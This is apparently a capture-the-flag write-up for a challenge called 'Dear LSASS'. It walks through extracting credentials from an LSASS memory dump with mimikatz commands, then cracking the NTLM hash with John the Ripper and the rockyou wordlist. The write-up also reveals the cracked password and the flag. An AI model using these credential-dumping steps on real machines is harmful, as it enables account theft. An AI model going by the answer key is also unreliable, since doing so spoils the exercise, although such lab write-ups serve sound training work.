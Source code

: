 # Dear LSASS
#### Mimikatz, johntheripper, brute-force
## Challenge Description:

An IT company hired you to perform an internal takeover of the sales department.
While looking around the office, you noticed that an employee named Oshri left his computer unlocked and unsupervised.
﻿Although an attempt to leave a backdoor failed due to the company's endpoint protection software, you managed to successfully dump the memory of the LSASS process to a USB drive

Your goals<br>
☛ Oshri's station is a Windows 10 20H2 (Build 2009).<br>
☛ Extract the credentials from the memory dump of the LSASS process.<br>
☛ Find Oshri's password.<br>

## Process:

Download the DMP file to a virtual Windows 10 and download mimikatz<br>

Open mimikatz with admin privileges<br>
Use the command 'privilege::debug' and make sure you get appropriate response<br>

Use 'sekurlsa::minidump C:\Users\User\Desktop\mimikatz-master\x64\oshri.DMP' to access the DMP file<br>
<img align="center" src="Images/DearLSASS_01.png"><br>

#### sekurIsa:.Iogonpasswords 

<details> 
        <summary>The NTLM hash</summary> 
          722b6a1fc17c46ca1b771f6dd502d7a1
    </details><br>

Create a txt file with the NTLM hash in a kali machine<br>
Use the command 'john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt  hash.txt' to brute-force the hash<br>


<details> 
        <summary>The password we were looking for</summary>
        <img align="center" src="Images/DearLSASS_02.png"><br>
"qweasdqweasd"
    </details><br>
Convert the password through an MD5 converter and you found the hash

<details> 
        <summary>The Hidden Flag</summary> 
          ca64f5c1d65081a0b2a797844b6557f4
    </details><br>

